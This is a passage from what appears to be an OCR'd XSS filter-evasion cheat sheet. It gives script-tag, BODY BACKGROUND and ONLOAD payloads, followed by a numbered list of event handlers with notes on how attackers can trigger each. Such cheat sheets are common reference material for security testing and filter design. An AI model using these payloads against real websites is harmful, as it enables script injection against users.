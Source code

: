 XSS with no single quotes or double quotes or semicolons:
```
<SCRIPT>a=/XSS/
alert(a.source)</SCRIPT>
```
BODY image:
```
<BODY BACKGROUND="javascript:alert('XSS')">
```
BODY tag (I like this method because it doesn't require using any variants of "javascript:" or "<SCRIPT..." to accomplish the XSS attack):
```
<BODY ONLOAD=alert('XSS')>
```
Event Handlers that can be used in similar XSS attacks to the one above (this is the most comprehensive list on the net, at the time of this writing):
```
1. FSCommand() (attacker can use this when executed
from within an embedded Flash object)
2. onAbort() (when user aborts the loading of an image)
3. onActivate() (when object is set as the active element)
4. onAfterPrint() (activates after user prints or previews print job)
5. onAfterUpdate() (activates on data object after updating data in the
source object)
6. onBeforeActivate() (fires before the object is set as the active
element)
7. onBeforeCopy() (attacker executes the attack string right before a
selection is copied to the clipboard - attackers can do this with the
execCommand("Copy") function)
8. onBeforeCut() (attacker executes the attack string right before a
selection is cut)
9. onBeforeDeactivate() (fires right after the activeElement is changed
from the current object)
10. onBeforeEditFocus() (Fires before an object contained in an
editable element enters a UI-activated state or when an editable
container object is control selected)
11. onBeforePaste() (user needs to be tricked into pasting or be forced
into it using the execCommand("Paste") function)
12. onBeforePrint() (user would need to be tricked into printing or
attacker could use the print() or execCommand("Print") function).
13. onBeforeUnload() (user would need to be tricked into closing the
browser - attacker cannot unload windows unless it was spawned from the
parent)
14. onBlur() (in the case where another popup is loaded and window
looses focus)
15. onBounce() (fires when the behavior property of the marquee object
is set to "alternate" and the contents of the marquee reach one side of
the window)
16. onCellChange() (fires when data changes in the data provider)
17. onChange() (select, text, or TEXTAREA field loses focus and its
value has been modified)
18. onClick() (someone clicks on a form)
19. onContextMenu() (user would need to right click on attack area)
20. onControlSelect() (fires when the user is about to make a control
selection of the object)
21. onCopy() (user needs to copy something or it can be exploited using
the execCommand("Copy") command)
22. onCut() (user needs to copy something or it can be exploited using
the execCommand("Cut") command)
23. onDataAvailible() (user would need to change data in an element, or
attacker could perform the same function)
24. onDataSetChanged() (fires when the data set exposed by a data
source object changes)
25. onDataSetComplete() (fires to indicate that all data is available
from the data source object)
```